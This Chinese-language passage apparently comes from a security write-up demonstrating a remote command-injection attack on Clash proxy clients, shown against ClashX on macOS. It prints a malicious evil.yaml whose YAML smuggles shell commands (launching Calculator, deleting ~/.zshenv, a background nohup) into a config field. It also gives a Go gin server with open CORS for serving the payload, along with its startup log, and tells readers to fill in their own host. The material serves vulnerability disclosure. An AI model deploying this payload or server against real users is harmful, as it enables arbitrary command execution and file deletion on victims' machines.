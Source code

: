 ```html
          });
      </script>
    </p>
  </body>
</html>
```

在公网起一个 Web 服务，同时允许跨域，对外提供如上 index.html 和 evil.yaml 恶意文件，evil.yaml 文件中包含了攻击者期望执行的命令。注意将如上 html 中的`{{yourevilser}}`换成你自己的 IP 或者域名。

```shell
$ cat evil.yaml
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &' <<!:
  aaaaa: 11111

proxies:
  - {name: vP, server: n04.a00x.party, port: 18000, type: ssr, cipher: aes-256-cfb, password: AFX92CS, protocol: auth_aes128_sha1, obfs: http_simple, protocol-param: 232991:xSnSFv, obfs-param: download.windowsupdate.com, udp: true}

aaaaa: 2222

$ cat main.go
package main

import (
	"github.com/gin-contrib/cors"
	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()
	r.Use(cors.Default())
	r.StaticFile("/", "./index.html")
	r.StaticFile("/evil.yaml", "./evil.yaml")
	r.Run(":9999")
}

$ go run main.go
[GIN-debug] GET    /                         --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] HEAD   /                         --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] GET    /evil.yaml                --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] HEAD   /evil.yaml                --> github.com/gin-gonic/gin.(*RouterGroup).StaticFile.func1 (4 handlers)
[GIN-debug] Listening and serving HTTP on :9999
```

限于文章篇幅，针对使用 CLI Clash 的 Linux 用户的攻击就不演示了，只做针对 macOS 用户使用 ClashX 是如何遭受到攻击的演示。
